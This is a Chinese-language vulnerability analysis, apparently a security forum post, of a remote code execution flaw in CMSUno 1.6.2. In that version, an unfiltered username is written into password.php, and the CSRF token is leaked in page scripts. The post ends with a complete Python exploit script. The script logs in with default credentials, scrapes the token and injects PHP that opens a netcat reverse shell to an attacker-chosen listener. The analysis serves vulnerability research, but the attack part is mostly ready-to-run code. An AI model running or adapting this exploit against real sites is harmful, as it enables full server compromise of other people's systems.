 前言
==

CMSUno是法国Jacques Malgrange软件开发者的一款用于创建单页响应式网站的工具  
下文是基于对EXP的分析得来的，EXP原作者:Fatih Çelik，另外为了方便分析复现，对EXP做了小幅度的修改。  
该漏洞现已修复，相关链接在末尾

漏洞原理分析
======

漏洞点
---

### 0x01

在uno/central.php  
269:case sauvePass  
可以看到273行$a接收到post的user值之后中间没有经过任何过滤，在280行直接拼接进准备写入的PHP代码，并在满足else if条件后直接将接收到的值写入password.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d39068fcee744ce660aee40764612e9999a61a60.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d39068fcee744ce660aee40764612e9999a61a60.png)

### 0x02

可以看到在uno.php 36行对用户名密码，unox，$\_SESSION判断非空后，在用户名密码验证前include了password.php，若在此之前向user传入  
恶意php代码并写入password.php,恶意代码便能顺利执行。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d5906cb285472296e9c2ec2bb34ef5ccccf0b663.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d5906cb285472296e9c2ec2bb34ef5ccccf0b663.png)

### 0x03

这套源码中开头都会判断一个unox值，本意上是为了防止csrf，及越级访问  
初次访问uno.php时进入99行会随机生成值并存进$\_SESSION\['unox'\]中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c27698dc3087f32e26f4376d209e0fb087764feb.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c27698dc3087f32e26f4376d209e0fb087764feb.png)  
但作者似乎时为了图方便直接在混合编写时在下方132行html代码中直接echo $unox，写在表单中，用于和用户提交的用户名密码一起POST  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7234d538abeb8d1c73799a3faa613a203ebbe440.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7234d538abeb8d1c73799a3faa613a203ebbe440.png)  
用户成功登录后便会进入uno.php 93行，重新随机生成一个$unox值，但同样，在edition.php 24行html代码中直接echo $unox在js脚本中，这使得劫持$unox，越级访问central.php成为可能  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-36a910d2396a65e65fb17b689ed9ce4facc8b400.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-36a910d2396a65e65fb17b689ed9ce4facc8b400.png)

归纳整个利用过程
--------

访问uno.php并正常登录 --&gt; 读取并劫持edition.php echo在js代码中的unox值 --&gt; 携带unox值往central.php POST满足 279行条件的值 --&gt; 往uno.php POST满足 33行的值触发password.php中的恶意代码

漏洞复现
====

查看攻击机ip并开启监听  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-f5f107c7246ae04f5fedc44d684d318ca1342d87.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-f5f107c7246ae04f5fedc44d684d318ca1342d87.png)  
执行EXP  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d1d859b7d91dce8bb39c542eaabd6602dc05eefe.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-d1d859b7d91dce8bb39c542eaabd6602dc05eefe.png)  
接收到反弹shell  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3e867bce0ae8cc944c94c95ad6ccd5fd5e92c645.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3e867bce0ae8cc944c94c95ad6ccd5fd5e92c645.png)

EXP
---

```python
import requests
from bs4 import BeautifulSoup
import lxml
import json
from time import sleep

#默认用户名密码
username = 'cmsuno'
password = '654321'
root_url = 'http://192.168.127.128/cmsuno_1.6.2' #网站根目录，不包含uno.php

#接收shell地址
listener_ip = input("输入监听地址:")
listener_port = input("输入监听端口:")

login_url = root_url + "/uno.php"
vulnerable_url = root_url + "/uno/central.php"

session = requests.Session()
request = session.get(login_url)

#获取页面输入框
soup = BeautifulSoup(request.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']
print(unox)

#执行正常登录 ，由于是脚本所以需要读取并携带unox
body = {"unox":unox,"user":username,"pass":password}
session.post(login_url, data=body)

request = session.get(login_url)
text = request.text
soup = BeautifulSoup(text,"lxml")
script = soup.findAll('script')[1].string
data = script.split("Unox='")[1]
unox = data.split("',")[0]

#exploit
header = {
"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/90.0.2",
"Accept":"*/",
"Accept-Encoding": "gzip, deflate",
"X-Requested-With": "XMLHttpRequest",
"Origin": login_url,
"Referer": login_url
}

payload = 'en";system(\'nc.traditional {} {} -e /bin/bash\');?>// '.format(listener_ip,listener_port)  #注入PHP代码反弹shell
body = 'action=sauvePass&unox={}&user0={}&pass0={}&user={}&pass=654321&lang=en'.format(unox,username,password,payload) 
session.post(vulnerable_url, data=(json.dumps(body)).replace("\\","")[1:-1],headers=header)

#再次执行登录以触发 password.php 执行恶意代码 由于是脚本所以需要读取并携带unox
session1 = requests.Session()
request1 = session1.get(login_url)
soup = BeautifulSoup(request1.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']

# Login
sleep(3)
body = {"unox":unox,"user":username,"pass":password}
session1.post(login_url, data=body)
```

相关链接  
<https://www.exploit-db.com/exploits/49031>  
<https://fatihhcelik.blogspot.com/2020/09/cmsuno-162-remote-code-execution.html>  
<https://github.com/boiteasite/cmsuno/archive/refs/tags/1.6.2.zip>